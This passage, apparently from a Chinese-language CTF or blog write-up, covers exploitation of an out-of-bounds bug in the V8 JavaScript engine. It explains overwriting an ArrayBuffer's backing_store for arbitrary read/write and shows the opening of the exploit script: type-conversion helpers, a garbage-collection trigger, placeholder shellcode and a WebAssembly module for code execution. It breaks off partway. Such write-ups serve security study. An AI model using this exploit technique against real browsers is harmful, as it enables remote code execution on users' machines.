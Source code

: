 输出：

![](./img/output1.png)

还真可以，那就等于是越界了，那就不搞addrof和fakeobj，直接去写ArrayBuffer的backing_store岂不美滋滋

带着这个思路，我们在oob的数组后面分配ArrayBuffer和BigUint64Array（用于泄露external_pointer），修改ArrayBuffer的backing_store来达到任意地址读写的目的，最后exp：

```javascript
var format_buffer = new ArrayBuffer(16);
var float64 = new Float64Array(format_buffer);
var bigUint64 = new BigUint64Array(format_buffer);

var shellcode = [0x90909090,0x90909090,0xcccccccc,0x90909090]; 
var wasmCode = new Uint8Array([0,97,115,109,1,0,0,0,1,133,128,128,128,0,1,96,0,1,127,3,130,128,128,128,0,1,0,4,132,128,128,128,0,1,112,0,0,5,131,128,128,128,0,1,0,1,6,129,128,128,128,0,0,7,145,128,128,128,0,2,6,109,101,109,111,114,121,2,0,4,109,97,105,110,0,0,10,138,128,128,128,0,1,132,128,128,128,0,0,65,42,11]);
    
var wasmModule = new WebAssembly.Module(wasmCode);
var wasmInstance = new WebAssembly.Instance(wasmModule, {});
var f = wasmInstance.exports.main;

function force_gc() {
    for (var i = 0; i < 0x20; ++i) {
        var a = new ArrayBuffer(0x800000);
    }
}

function f2i(f){
    float64[0] = f;
    return bigUint64[0];
}

function i2f(i){
    bigUint64[0] = i;
    return float64[0];
```
